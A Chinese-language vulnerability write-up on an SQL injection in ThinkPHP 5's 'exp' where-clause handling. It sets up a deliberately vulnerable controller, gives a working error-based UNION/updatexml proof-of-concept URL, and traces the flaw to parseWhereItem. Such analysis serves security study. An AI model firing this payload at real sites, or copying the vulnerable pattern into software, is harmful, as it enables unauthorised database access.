

Thinkphp5 全版本
================

一、漏洞简介
------------

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **select**
方法注入）。次漏洞存在于 **Mysql** 类的 **parseWhereItem**
方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL**
语句，导致 **SQL注入漏洞** 的产生。

二、漏洞影响
------------

ThinkPHP5全版本

三、复现过程
------------

### 漏洞环境

通过以下命令获取测试环境代码：

    composer create-project --prefer-dist topthink/think=5.0.10 tpdemo

将 **composer.json** 文件的 **require** 字段设置成如下：

    "require": {
        "php": ">=5.4.0",
        "topthink/framework": "5.0.10"
    },

然后执行 `composer update` ，并将
**application/index/controller/Index.php** 文件代码设置如下：

    <?php
    namespace app\index\controller;

    class Index
    {
        public function index()
        {
            $username = request()->get('username');
            $result = db('users')->where('username','exp',$username)->select();
            return 'select success';
        }
    }

在 **config/database.php** 文件中配置数据库相关信息，并开启
**config/app.php** 中的 **app\_debug** 和 **app\_trace**
。创建数据库信息如下：

    create database tpdemo;
    use tpdemo;
    create table users(
        id int primary key auto_increment,
        username varchar(50) not null
    );
    insert into users(id,username) values(1,'mochazz');

### poc

    http://0-sec.org:8000/index/index/index?username=) union select updatexml(1,concat(0x7,user(),0x7e),1)#

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app\_debug** 是无法看到
**SQL** 报错信息的）

### 漏洞分析

由于官方根本不认为这是一个漏洞，而认为这是他们提供的一个功能，所以官方并没有对这个问题进行修复。但笔者认为这里的数据过滤还是存在问题的，所以我们还是来分析分析这个漏洞。

程序默认调用 **Request** 类的 **get** 方法中会调用该类的 **input**
方法，但是该方法默认情况下并没有对数据进行很好的过滤，所以用户输入的数据会原样进入框架的
**SQL** 查询方法中。首先程序先调用 **Query** 类的 **where** 方法，通过其
**parseWhereExp** 方法分析查询表达式，然后再返回并继续调用 **select**
方法准备开始构建 **select** 语句。

上面的 **\$this-\>builder** 为 **\\think\\db\\builder\\Mysql** 类，该类继承于 **Builder** 类，所以接着会调用 **Builder** 类的
**select** 方法。在 **select** 方法中，程序会对 **SQL**
语句模板用变量填充，其中用来填充 **%WHERE%**
的变量中存在用户输入的数据。我们跟进这个 **where**
分析函数，会发现其会调用生成查询条件 **SQL** 语句的 **buildWhere**
函数。

继续跟进 **buildWhere** 函数，发现用户可控数据又被传入了
**parseWhereItem** where子单元分析函数。我们发现当操作符等于 **EXP**
时，将来自用户的数据直接拼接进了 **SQL** 语句，最终导致了
**SQL注入漏洞** 。

### 漏洞修复

未修复。

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

参考链接
--------

> https://github.com/Mochazz/ThinkPHP-Vuln
